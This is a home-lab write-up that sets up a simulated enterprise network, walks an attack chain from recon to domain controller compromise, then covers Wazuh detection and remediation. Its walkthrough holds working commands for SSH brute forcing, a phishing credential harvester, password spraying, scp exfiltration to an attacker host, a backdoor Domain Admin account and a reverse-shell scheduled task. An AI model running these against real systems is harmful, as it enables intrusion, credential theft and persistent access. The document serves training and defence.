







# Enterprise Home Lab & Attack Simulation

A complete cybersecurity home lab simulating real-world enterprise infrastructure, a full attack kill chain, and detection engineering with Wazuh.

---

## Table of Contents

- [Project Overview](#project-overview)
- [Lab Architecture](#lab-architecture)
- [Attack Simulation Walkthrough](#attack-simulation-walkthrough)
- [Detection & Investigation](#detection--investigation)
- [Key Findings & Lessons Learned](#key-findings--lessons-learned)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Credits](#credits)

---

## Project Overview

| Aspect | Description |
|--------|-------------|
| Objective | Build a realistic enterprise environment and simulate a full attack chain |
| Scope | 7 machines, 4 attack phases, Wazuh-based detection |
| Attack Tools | Nmap, Hydra, Evil-WinRM, NetExec (nxc), xfreerdp, SCP |
| Defense Tools | Wazuh SIEM, Windows Event Logs, Sysmon |

**What this project demonstrates:**

- Active Directory and Windows/Linux enterprise environment setup
- Realistic attack simulation from reconnaissance to domain controller compromise
- Blue team detection and investigation using Wazuh SIEM
- Documentation of vulnerabilities and remediation strategies

---

## Lab Architecture

**Network Range:** `10.0.0.0/24`

### Domain Controller

| Field | Value |
|-------|-------|
| Hostname | `dc` |
| Domain | `corp.project-x-dc.com` |
| IP Address | `10.0.0.5` |
| Function | Domain Controller (DNS, DHCP) |
| Credentials | `Administrator` / `@Deeboodah1!` |



---

### Workstations & Servers

**Windows Client**

| Field | Value |
|-------|-------|
| IP Address | `10.0.0.100` (or dynamic) |
| Function | Windows Workstation |
| Credentials | `johnd@corp.project-x-dc.com` / `@password123!` |



---

**Linux Client**

| Field | Value |
|-------|-------|
| IP Address | `10.0.0.101` (or dynamic) |
| Function | Linux Desktop Workstation |
| Credentials | `janed@linux-client` / `@password123!` |



---

**Security Server**

| Field | Value |
|-------|-------|
| Hostname | `sec-box` |
| IP Address | `10.0.0.10` |
| Function | Dedicated Security Server (Monitoring, Detection) |
| Credentials | `sec-work@sec-box` / `@password123!` |



---

**Security Workstation**

| Field | Value |
|-------|-------|
| Hostname | `sec-work` |
| IP Address | `10.0.0.103` (or dynamic) |
| Function | Security Testing & Simulation |
| Credentials | `project-x-sec-work` / `@password123!` |



---

**Email Server**

| Field | Value |
|-------|-------|
| Hostname | `email-svr` |
| IP Address | `10.0.0.8` |
| Function | SMTP Relay Server |
| Credentials | `email-svr@project-x-email-svr` / `@password123!` |



---

**Attacker Machine**

| Field | Value |
|-------|-------|
| IP Address | `10.0.0.50` |
| Function | Attacker Environment |
| Credentials | `attacker` / `attacker` |



---

### Credential Summary

| Machine | Username | Password |
|---------|----------|----------|
| Domain Controller | `Administrator` | `@Deeboodah1!` |
| Windows Client | `johnd@corp.project-x-dc.com` | `@password123!` |
| Linux Client | `janed@linux-client` | `@password123!` |
| Email Server | `root` | `november` |
| Security Server | `sec-work@sec-box` | `@password123!` |
| Attacker Machine | `attacker` | `attacker` |

---

## Attack Simulation Walkthrough

The attack follows a 4-phase kill chain:

| Phase | Name |
|-------|------|
| 1 | Reconnaissance & Initial Access |
| 2 | Lateral Movement |
| 3 | Privilege Escalation (Domain Controller Compromise) |
| 4 | Data Exfiltration & Persistence |

---

### Phase 1 — Reconnaissance & Initial Access

**Goal:** Gain first foothold in the network.

#### Step 1.1 — Network Scanning

From the attacker machine (`10.0.0.50`):

```bash
nmap -p1-1000 -sV -Pn 10.0.0.0/24
```

> **Finding:** Email server (`10.0.0.8`) found with SSH port 22 and SMTP port 25 open.

#### Step 1.2 — Focused Scan on Email Server

```bash
nmap -p1-1000 -sV -Pn 10.0.0.8
```

> **Result:** SSH (22) and SMTP (25) confirmed open.

#### Step 1.3 — SSH Brute Force Attack

```bash
hydra -l root -P /home/attacker/rockyou.txt ssh://10.0.0.8
```

> **Credentials found:** `root` / `november`

#### Step 1.4 — Initial Access

```bash
ssh root@10.0.0.8
```

Successfully logged into the email server as root.

#### Step 1.5 — Post-Compromise Enumeration

```bash
cat /etc/os-release
hostname
ps aux
ls -la /etc
```

#### Step 1.6 — Phishing Setup on Compromised Email Server

Create a fake login page:

```bash
echo '<html><form method="POST" action="creds.php"><input name="user"><input name="pass" type="password"><input type="submit"></form></html>' > /var/www/html/index.html
```

Create a credential harvester:

```bash
echo '<?php file_put_contents("creds.log", $_POST["user"].":".$_POST["pass"]."\n", FILE_APPEND); ?>' > /var/www/html/creds.php
```

Start the web server:

```bash
service apache2 start
```

#### Step 1.7 — Credential Theft via Phishing

A crafted email was sent impersonating the company to `janed@linux-client` with a malicious link. After the target entered credentials, the attacker retrieved them:

```bash
cat /var/www/html/creds.log
```

#### Step 1.8 — Second Machine Compromise

```bash
ssh janed@10.0.0.101
```

Successfully accessed the Linux Client (`10.0.0.101`).

> **Phase 1 Summary:** Attacker compromised the email server via SSH brute force, then pivoted to the Linux Client via phishing.

---

### Phase 2 — Lateral Movement

**Goal:** Move from Linux Client to Windows Client.

#### Step 2.1 — Enumeration on Compromised Linux Client

```bash
cat /etc/os-release
hostname
```

#### Step 2.2 — Scanning for Additional Targets

From a separate attacker terminal:

```bash
nmap -p1-1000 -sV -Pn 10.0.0.100
nmap -Pn -p5985,5986 -sV 10.0.0.101
```

> **Finding:** WinRM ports 5985/5986 are open on the Windows Client.

#### Step 2.3 — Password Spraying Attack

`users.txt`:
```
Administrator
```

`pass.txt`:
```
@Deeboodah1!
password123!
admin@123
```

Execute password spraying with NetExec:

```bash
nxc winrm 10.0.0.100 -u users.txt -p pass.txt
```

> **Working credential found:** `Administrator` / `@Deeboodah1!`

#### Step 2.4 — Access Windows Client via Evil-WinRM

```bash
evil-winrm -i 10.0.0.100 -u Administrator -p @Deeboodah1!
```

PowerShell administrator access granted to the Windows Client.

> **Phase 2 Summary:** Attacker used password spraying against WinRM to gain administrator access to the Windows Client.

---

### Phase 3 — Privilege Escalation (Domain Controller Compromise)

**Goal:** Compromise the Domain Controller.

#### Step 3.1 — Scan Domain Controller

```bash
nmap -Pn 10.0.0.5
```

> **Finding:** Port `3389/tcp` (Microsoft RDP) is open.

#### Step 3.2 — RDP Pivot to Domain Controller

```bash
xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
```

Full RDP session to the Domain Controller established.

> **Phase 3 Summary:** Attacker exploited password reuse (same Administrator password on Windows Client and DC) to RDP directly into the Domain Controller.

---

### Phase 4 — Data Exfiltration & Persistence

**Goal:** Steal sensitive data and maintain long-term access.

#### Step 4.1 — Data Exfiltration via SCP

From the Windows Client (PowerShell):

```powershell
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```

File successfully transferred to the attacker machine.

#### Step 4.2 — Create Backdoor Account on Domain Controller

From the DC (PowerShell as Administrator):

```powershell
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
```

#### Step 4.3 — Deploy Reverse Shell for Persistence

Downloaded `reverse.ps1` from the attacker's hosted server (`10.0.0.50:8000`).

Saved to: `C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1`

Windows Security protections were disabled for simulation purposes.

#### Step 4.4 — Create Scheduled Task for Persistence

```powershell
schtasks /create /tn "Persistence Task" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 00:00
```

The task triggers daily at midnight, establishing a reverse shell back to the attacker.

> **Phase 4 Summary:** Attacker exfiltrated sensitive data, created a hidden domain admin account, and established persistent reverse shell access via a scheduled task.

---

## Detection & Investigation

Wazuh SIEM was used for all detection and investigation.

**Log Analysis Workflow:**

1. Navigate to the Wazuh Dashboard
2. Apply Discover filter with relevant timestamps
3. Search for specific indicators across all endpoints

### Detected Activities

**Phase 1 — SSH Brute Force**
Wazuh alert triggered for repeated failed SSH login attempts on the email server (`10.0.0.8`). Alert pattern showed 50+ failed attempts followed by a successful login from attacker IP `10.0.0.50`.

**Phase 2 — Lateral Movement**
WinRM authentication logs showed a successful login from an unusual source (`10.0.0.101`) to the Windows Client (`10.0.0.100`) using the Administrator account.

**Phase 3 — Domain Controller Access**
RDP logon event (Event ID `4624`) showed a successful login to the DC originating from the Windows Client (`10.0.0.100`).

**Phase 4 — Persistence**
Event logs captured new user account creation (Event ID `4720`) for `project-x-user`. Scheduled task creation (Event ID `4698`) for "Persistence Task" was also logged.

### Wazuh Alerts Summary

| Attack Phase | Wazuh Alert | Severity |
|--------------|-------------|----------|
| SSH Brute Force | Multiple failed logins then success | High |
| WinRM Lateral Movement | Unusual authentication source | High |
| RDP to DC | Non-standard administrative source | Critical |
| New Admin Account | Privileged account creation | Critical |
| Scheduled Task | Persistence mechanism detected | High |

---

## Key Findings & Lessons Learned

### Vulnerabilities Exploited

**1. Weak Password on Email Server**
SSH service used a weak password (`root:november`) present in the `rockyou.txt` wordlist.

**2. Password Reuse Across Critical Systems**
The same Administrator password was used on both the Windows Client and the Domain Controller. A single credential compromise led to full access to a crown jewel asset.

**3. No Multi-Factor Authentication (MFA)**
SSH, WinRM, and RDP were all protected by passwords alone.

**4. Insufficient Network Segmentation**
The attacker freely pivoted from the email server to internal workstations to the DC without encountering network-level barriers.

**5. Lack of Privileged Access Workstations (PAWs)**
The Administrator account was used from a non-privileged Windows Client.

### Remediation Recommendations

| # | Recommendation |
|---|----------------|
| 1 | Enforce a strong password policy across all systems |
| 2 | Implement MFA on SSH, WinRM, and RDP |
| 3 | Place the email server in a DMZ with strict egress filtering |
| 4 | Deploy Privileged Access Workstations (PAWs) for admin activity |
| 5 | Improve monitoring and alerting for credential-based attacks |
| 6 | Disable WinRM where not explicitly required |

---

## MITRE ATT&CK Mapping

| Attack Phase | Technique ID | Technique Name | Tactic |
|--------------|-------------|----------------|--------|
| Reconnaissance | T1046 | Network Service Scanning | Discovery |
| Initial Access | T1110.001 | Password Guessing | Credential Access |
| Initial Access | T1566.002 | Spearphishing Link | Initial Access |
| Lateral Movement | T1021.006 | Windows Remote Management | Lateral Movement |
| Lateral Movement | T1110.003 | Password Spraying | Credential Access |
| Privilege Escalation | T1078.002 | Domain Accounts | Defense Evasion |
| Privilege Escalation | T1021.001 | Remote Desktop Protocol | Lateral Movement |
| Persistence | T1136.002 | Domain Account Creation | Persistence |
| Persistence | T1053.005 | Scheduled Task | Persistence |
| Exfiltration | T1048 | Exfiltration Over Alternative Protocol | Exfiltration |

---

## Credits

This project was inspired by [ProjectSecurity](https://projectsecurity.io).

Special thanks to **Grant Collins** for the learning experience and guidance through the lab setup and attack simulation methodology.
